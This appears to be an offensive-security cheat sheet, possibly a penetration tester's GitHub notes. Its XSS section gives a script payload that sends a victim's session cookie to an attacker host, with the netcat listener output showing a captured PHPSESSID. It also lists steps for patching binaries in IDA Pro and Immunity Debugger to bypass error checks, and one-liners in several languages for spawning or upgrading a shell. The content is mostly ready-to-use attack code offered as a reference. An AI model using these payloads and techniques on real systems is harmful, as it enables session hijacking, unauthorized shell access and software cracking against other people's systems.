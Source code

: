 
## XSS


```
<script>alert("XSS")</script>

<script>
new Image().src="http://kali/bogus.php?output="+document.cookie;
</script>

root@kali:~# nc -nlvp 80
listening on [any] 80 ...
connect to [kali] from (UNKNOWN) [target] 49455
GET /bogus.php?output=PHPSESSID=CREDS HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/index.php
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2;
.NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
Accept-Encoding: gzip, deflate
Host: 192.168.10.5
Connection: Keep-Alive
```
## Reverse

```
do all in vm
1) try to grab strings for low hanging fruit
2) sublime text
3) IDA Pro in windows is easiest (use ctrl+x to find references/calls to function)
4) N is the hotkey to rename a function in IDA Pro, semicolon is hotkey for comment
5) In immunity debugger view module (select app)
6) searh for all refeed text strings (double click on an error message & success (set breakpoints)
7) Dobule click in cpu for breakpoint
8) inspect jumps
9) modify jumps to not take errors
```

## Shell Spawning
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

then to use normal linux commands like clear
export TERM=linux
```
## (From within IRB)
```
exec "/bin/sh"
(From within vi)
:!bash
```
## (From within vi)
```
:set shell=/bin/bash:shell
```